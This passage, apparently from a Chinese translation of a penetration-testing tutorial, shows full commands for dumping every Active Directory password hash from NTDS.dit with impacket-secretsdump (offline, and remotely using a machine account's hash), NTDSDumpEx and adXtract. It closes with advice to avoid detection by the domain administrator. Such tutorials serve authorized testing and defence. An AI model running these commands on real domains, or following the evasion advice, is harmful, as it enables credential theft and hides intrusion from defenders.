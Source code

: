 ```
impacket-secretsdump -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5f58d240-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5f58d240-988f-1.png)

此外，impacket 可以通过使用计算机帐户及其哈希进行身份验证然后从 NTDS.DIT​​文件远程 dump 域内所有密码哈希。

```
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5f7b4348-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5f7b4348-988f-1.png)

作为 impacket 的替代解决方案，[NTDSDumpEx](https://github.com/zcgonvh/NTDSDumpEx) 二进制文件可以从 Windows 主机中提取域密码哈希值。

```
NTDSDumpEx.exe -d ntds.dit -s SYSTEM.hive
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5f982364-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5f982364-988f-1.png)

还有一个 shell 脚本 [adXtract](https://github.com/LordNem/adXtract)，它可以将用户名和密码哈希导出为一种格式，可以使用常见密码破解程序进行破解，例如 John the Ripper 和 Hashcat。

```
./adXtract.sh /root/ntds.dit /root/SYSTEM pentestlab
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5fbcbeea-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171018-5fbcbeea-988f-1.png)

该脚本将所有信息写入项目名称下的各种文件中，当数据库文件 NTDS 的解密完成后，将用户列表和密码哈希值导出到控制台中。该脚本将提供有关域用户的大量信息，如下所示。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171019-5fe2dac6-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171019-5fe2dac6-988f-1.png)

密码哈希将以下列格式显示。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171019-60097d02-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171019-60097d02-988f-1.png)

总结
--

操作一遍之后，操作确实很多，个人愚见就是，不管哪种方法，都尽量别被域管发现。

译者：[wing](https://evilwing.me/)